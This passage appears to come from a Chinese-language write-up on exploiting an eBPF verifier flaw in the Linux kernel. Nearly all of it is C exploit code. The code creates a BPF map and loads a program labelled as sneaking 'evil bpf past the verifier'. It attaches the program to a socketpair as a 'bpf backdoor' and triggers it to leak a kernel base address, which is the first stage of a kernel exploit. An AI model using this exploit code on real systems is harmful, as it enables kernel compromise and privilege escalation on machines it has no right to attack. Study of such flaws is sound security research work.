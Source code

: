 ##### 触发eBPF code执行

最简单的就是创建一个`BPF_PROG_TYPE_SOCKET_FILTER`类型的bpf_prog，这样就可以在每一次写入socket操作，就可以触发一次eBPF代码执行

```c
// write_msg() —— trigger to execute eBPF code
int write_msg()
{
	ssize_t n = write(sockets[0], buffer, sizeof(buffer));
	if (n < 0)
	{
		perror("write");
		return 1;
	}
	if (n != sizeof(buffer))
	{
		fprintf(stderr, "short write: %d\n", n);
	}
	return 0;
}
```

泄漏内核地址：

```c
	// Step 1: create eBPF code, verify and trigger the vulnerability
	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 0x100);
	if (mapfd < 0)
	{
		fail("failed to create map '%s'\n", strerror(errno));
	}
	redact("sneaking evil bpf past the verifier\n");
	int progfd = load_prog();  // verify
	printf("%s\n", bpf_log_buf);
	if (progfd < 0)
	{
		if (errno == EACCES)
		{
			msg("log:\n%s", bpf_log_buf);
		}
		printf("%s\n", bpf_log_buf);
		fail("failed to load prog '%s'\n", strerror(errno));
	}

	redact("creating socketpair()\n");
	if (socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))
	{
		fail("failed to create socket pair '%s'\n", strerror(errno));
	}

	redact("attaching bpf backdoor to socket\n");
	if (setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)
	{
		fail("setsockopt '%s'\n", strerror(errno));
	}

	// Step 2: leak kernel_base  (op=0)
	update_elem(0, 0); 		// value[0]=0x180000000; value[1]=0;
	update_elem(1, 0);	
	size_t value = 0;
	write_msg();
	size_t ops_addr = get_elem(4); 		// 读取value[4]处的值
	printf("leak addr: 0x%llx\n", ops_addr); 
```
